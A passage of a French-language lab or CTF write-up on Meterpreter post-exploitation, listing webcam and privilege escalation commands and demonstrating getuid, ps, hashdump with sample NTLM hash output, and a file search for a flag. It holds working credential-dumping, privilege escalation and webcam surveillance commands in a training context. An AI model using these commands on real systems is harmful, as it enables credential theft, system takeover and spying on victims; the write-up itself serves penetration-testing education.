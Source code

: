 **Webcam :**
```
webcam_chat      Démarre un chat vidéo
webcam_list      Liste les webcams disponibles
webcam_snap      Prend un instantané depuis la webcam spécifiée
webcam_stream    Lit un flux vidéo depuis la webcam spécifiée
```

**Élévation de privilèges :**
```
getsystem        Tente d'élever vos privilèges à celui du système local
hashdump         Vide le contenu de la base de données SAM (hashes des mots de passe)
```

---

### Task 4 - Post-Exploitation with Meterpreter

#### Commandes essentielles de post-exploitation

**Identifier l'utilisateur actuel**

La commande `getuid` affiche l'utilisateur sous lequel Meterpreter s'exécute actuellement :

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> Si vous voyez `NT AUTHORITY\SYSTEM`, cela signifie que vous disposez des privilèges système les plus élevés sur Windows.
{: .prompt-tip }

**Lister les processus**

La commande `ps` affiche tous les processus en cours d'exécution :

```bash
meterpreter > ps
```

**Extraire les hashes des mots de passe**

La commande `hashdump` permet d'extraire les hashes NTLM des utilisateurs locaux :

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
```

**Rechercher des fichiers**

La commande `search` permet de localiser des fichiers spécifiques :

```bash
meterpreter > search -f flag2.txt
```
